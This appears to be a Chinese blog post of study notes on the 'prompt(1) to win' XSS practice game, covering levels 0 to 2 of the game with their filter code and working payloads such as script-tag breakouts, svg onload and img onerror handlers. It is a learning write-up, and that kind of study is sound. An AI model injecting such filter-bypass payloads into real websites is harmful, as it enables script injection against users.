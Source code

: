 ```yaml
---
layout: post
title: "prompt(1)to win 学习笔记"
date: 2018-10-16
description: "xss学习"
tag: xss学习
---
```

# 前言
看了很多大佬有关学习安全方面的知识，都是要静下心来，搞技术要坐的住冷板凳，慢慢的就会发现自已的进步。接下来的一段时间要学习有关xss方面的知识了，今天就玩起了[prompt(1) to win](http://prompt.ml/0)。好了废话不多说，开始吧。
# 游戏规则
1.成功执行prompt(1)
2.payload必须对Firefox,Chrome浏览器有效
3.字符越少越好
* 我用的火狐浏览器
## 第0关
```
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}       
```
一般开始都不会太难的，看源码，闭合掉就好了
* payload:
```
1."><script>prompt(1)</script>//
2."><svg/onload="prompt(1)
```
## 第1关
```
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}        
```
这关有正则表达式，过滤<>之间的内容替换成空，所以不能有>
* payload:
```
1.<svg/onload=prompt(1)
2.<img src=1 onerror=prompt(1)
```
## 第2关
```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}
```
这关过滤了=（替换为空，所以只能编码绕过